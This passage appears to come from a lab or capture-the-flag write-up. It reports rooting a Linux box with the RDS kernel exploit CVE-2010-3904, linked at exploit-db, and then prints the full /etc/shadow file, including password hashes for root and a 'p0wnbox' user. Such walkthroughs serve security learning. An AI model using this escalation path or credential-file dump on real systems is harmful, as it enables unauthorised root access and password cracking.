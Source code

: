 
We root the server using:
{% codeblock %}
https://raw.githubusercontent.com/offensive-security/exploit-database/master/platforms/linux/local/15285.c

[+] rds
   CVE-2010-3904
   Source: http://www.exploit-db.com/exploits/15285/
{% endcodeblock %}

{% codeblock %}
# cat /etc/shadow
cat /etc/shadow
root:$6$YB3puY.G$drg9.SqpJyPujoS82zbwdQtM7xgPpAJlDmdQaH8tu2ndUrmNwIx29lYazyhhsFKKF.yw6ScopFmMAh.t/qIZn0:14999:0:99999:7:::
daemon:*:14837:0:99999:7:::
bin:*:14837:0:99999:7:::
sys:*:14837:0:99999:7:::
sync:*:14837:0:99999:7:::
games:*:14837:0:99999:7:::
man:*:14837:0:99999:7:::
lp:*:14837:0:99999:7:::
mail:*:14837:0:99999:7:::
news:*:14837:0:99999:7:::
uucp:*:14837:0:99999:7:::
proxy:*:14837:0:99999:7:::
www-data:*:14837:0:99999:7:::
backup:*:14837:0:99999:7:::
list:*:14837:0:99999:7:::
irc:*:14837:0:99999:7:::
gnats:*:14837:0:99999:7:::
nobody:*:14837:0:99999:7:::
libuuid:!:14837:0:99999:7:::
syslog:*:14837:0:99999:7:::
messagebus:*:14837:0:99999:7:::
avahi-autoipd:*:14837:0:99999:7:::
avahi:*:14837:0:99999:7:::
couchdb:*:14837:0:99999:7:::
speech-dispatcher:!:14837:0:99999:7:::
usbmux:*:14837:0:99999:7:::
haldaemon:*:14837:0:99999:7:::
kernoops:*:14837:0:99999:7:::
pulse:*:14837:0:99999:7:::
rtkit:*:14837:0:99999:7:::
saned:*:14837:0:99999:7:::
hplip:*:14837:0:99999:7:::
gdm:*:14837:0:99999:7:::
p0wnbox:$6$AT8lMX0W$GPAZaGLMX0mi5EPFhx9wT5qJu9bxkIEfH.cmKX/j/O3QpRWXgBQ2WUAa.SIoFGdcfKrv.FtuBVn1UonfItMrw1:14999:0:99999:7:::
mysql:!:14991:0:99999:7:::
